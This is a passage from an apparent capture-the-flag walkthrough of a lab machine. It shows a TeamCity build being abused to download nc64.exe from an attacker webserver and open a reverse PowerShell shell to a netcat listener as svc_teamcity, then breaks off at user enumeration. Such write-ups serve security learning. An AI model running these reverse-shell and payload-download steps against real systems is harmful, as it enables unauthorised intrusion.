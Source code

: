 
I’ll save it as `shell.diff`.

With a Python webserver serving `nc64.exe`, and `nc` listening on 443, I’ll
start a run with the advanced options:

![image-20231120155911552](../img/image-20231120155911552.png)

A few seconds after submitting there’s a request at the webserver:

    
    
    10.10.11.207 - - [20/Nov/2023 16:00:22] "GET /nc64.exe HTTP/1.1" 200 -
    

Then a shell at `nc` as svc_teamcity:

    
    
    oxdf@hacky$ rlwrap nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.207 49367
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\TeamCity\buildAgent\work\74c2f03019966b3e> whoami
    coder\svc_teamcity
    

## Shell as e.black

### Enumeration

#### Home Directories

The home directory for svc_teamcity is basically empty. There are other users
on the box:
